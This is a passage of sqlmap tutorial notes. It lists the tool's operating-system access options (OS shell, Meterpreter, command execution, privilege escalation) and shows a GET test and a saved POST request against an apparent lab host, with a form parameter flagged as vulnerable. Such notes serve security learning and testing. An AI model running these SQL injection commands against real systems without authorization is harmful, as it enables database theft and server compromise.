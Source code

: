 | `-C <COL>`        | DBMS database table column(s) to enumerate |

### Operating System access commands
These options can be used to access the back-end database management system on the target operating system.

| **Options**      | **Description**                                        |
| ---------------- | ------------------------------------------------------ |
| `--os-shell`     | Prompt for an interactive operating system shell       |
| `--os-pwn`       | Prompt for an OOB shell, Meterpreter, or VNC           |
| `--os-cmd=OSCMD` | Execute an operating system command                    |
| `--priv-esc`     | Database process user privilege escalation             |
| `--os-smbrelay`  | One-click prompt for an OOB shell, Meterpreter, or VNC |

# UseCase


**Simple HTTP GET Based Test**  
  
  
`sqlmap -u https://testsite.com/page.php?id=7 --dbs`  


Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database.

  
  
**Simple HTTP POST Based Test**  
First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.

You’ll notice in the request above, we have a POST parameter 'blood_group' which could a vulnerable parameter.

SavedHTTPPOST request
SavedHTTPPOST request
```shell-session
nare@nare$ cat req.txt     #request output saved as a file
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.17.116
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.17.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.17.116/blood/nl-search.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bt0q6qk024tmac6m4jkbh8l1h4
Connection: close

blood_group=B%2B      #vuln param
```
